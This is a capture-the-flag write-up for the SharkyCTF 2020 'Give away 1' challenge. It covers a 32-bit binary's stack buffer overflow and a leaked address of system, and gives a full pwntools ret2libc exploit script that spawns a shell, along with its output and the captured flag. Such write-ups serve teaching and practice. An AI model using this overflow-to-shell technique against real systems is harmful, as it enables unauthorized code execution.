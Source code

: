 # SharkyCTF 2020

## Give away 1

>275
>
> Make good use of this gracious give away.
>
> `nc sharkyctf.xyz 20334`
>
> Creator: Hackhim
>
> [`give_away_1`](give_away_1) [`libc-2.27.so`](libc-2.27.so)

Tags: _pwn_ _bof_ _x86_ _rop_


## Summary

Overflow buffer; libc `system` address leak.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary; buffer overflow vulnerability.

    
### Decompile with Ghidra

Ghidra decompile will not help you here, you'll have to look at the assembly:

![](main.png)

`give_away_1` `main` gives up the address to `system`.  Then calls `vuln`:

![](vuln.png)

`local_24` is `0x24` bytes above the return address, yet `0x32` bytes can be read.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

#p = process('./give_away_1')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('sharkyctf.xyz', 20334)
libc = ELF('libc-2.27.so')

p.recvuntil('Give away: ')
system = eval(p.recvline().strip())
print(hex(system))
libcbase = system - libc.symbols['system']
print('libcbase: ' + hex(libcbase))

payload  = 0x24 * b'A'
payload += p32(system)
payload += p32(0x0)
payload += p32(libcbase + next(libc.search(b"/bin/sh")))

p.sendline(payload)
p.interactive()
```

Computing the base of libc is trivial using the leaked `system` address and the provided libc .

Next, find a `/bin/sh` string to pass to `system` to finish off the payload.

Output:

```
# ./exploit.py
[+] Opening connection to sharkyctf.xyz on port 20334: Done
[*] '/pwd/datajerk/sharkyctf2020/giveaway1/libc-2.27.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0xf7db6200
libcbase: 0xf7d79000
[*] Switching to interactive mode
$ cat flag.txt
shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}
```
